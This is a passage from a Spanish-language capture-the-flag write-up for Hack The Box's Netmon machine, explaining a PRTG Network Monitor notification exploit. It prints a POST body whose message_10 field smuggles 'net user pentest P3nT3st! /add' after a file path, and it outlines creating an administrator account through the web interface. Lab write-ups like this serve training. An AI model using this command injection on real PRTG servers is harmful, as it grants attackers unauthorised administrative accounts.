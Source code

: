 ```php
name_=create_user&tags_=&active_=1&schedule_=-1|None|&postpone_=1&comments=&summode_=2&summarysubject_=[%sitename] %summarycount Summarized Notifications&summinutes_=1&accessrights_=1&accessrights_=1&accessrights_201=0&active_1=0&addressuserid_1=-1&addressgroupid_1=-1&address_1=&subject_1=[%sitename] %device %name %status %down (%message)&contenttype_1=text/html&customtext_1=&priority_1=0&active_17=0&addressuserid_17=-1&addressgroupid_17=-1&message_17=[%sitename] %device %name %status %down (%message)&active_8=0&addressuserid_8=-1&addressgroupid_8=-1&address_8=&message_8=[%sitename] %device %name %status %down (%message)&active_2=0&eventlogfile_2=application&sender_2=PRTG Network Monitor&eventtype_2=error&message_2=[%sitename] %device %name %status %down (%message)&active_13=0&sysloghost_13=&syslogport_13=514&syslogfacility_13=1&syslogencoding_13=1&message_13=[%sitename] %device %name %status %down (%message)&active_14=0&snmphost_14=&snmpport_14=162&snmpcommunity_14=&snmptrapspec_14=0&messageid_14=0&message_14=[%sitename] %device %name %status %down (%message)&senderip_14=&active_9=0&url_9=&urlsniselect_9=0&urlsniname_9=&postdata_9=&active_10=0&active_10=10&address_10=Demo EXE Notification - OutFile.ps1&message_10="C:\Users\Public\tester.txt;net user pentest P3nT3st! /add"&windowslogindomain_10=&windowsloginusername_10=&windowsloginpassword_10=&timeout_10=60&active_15=0&accesskeyid_15=&secretaccesskeyid_15=&arn_15=&subject_15=&message_15=[%sitename] %device %name %status %down (%message)&active_16=0&isusergroup_16=1&addressgroupid_16=200|PRTG Administrators&ticketuserid_16=100|PRTG System Administrator&subject_16=%device %name %status %down (%message)&message_16=Sensor: %name
Status: %status %down

&autoclose_16=1&objecttype=notification&id=new&targeturl=/myaccount.htm?tabid=2
```

Vemos que la data se enviar a un parametro `message_10`, en donde crea un usuario de nombre `pentest` a nivel de sistema `net user pentest P3nT3st! /add`.


Podemos aprovecharnos de este y ejecutar una instrucción similar a la del exploit, donde crearemos un usuario al cual pondre de nombre `pentest` y ademas lo añadire al grupo de Administradores.


Nos dirigimos a la ruta a donde manda la petición, damos en `Add new Notification`.

![](/assets/images/HTB/htb-writeup-Netmon/netmon6.PNG)


Creamos un nombre de Notificación, en este caso `Nuevo`.

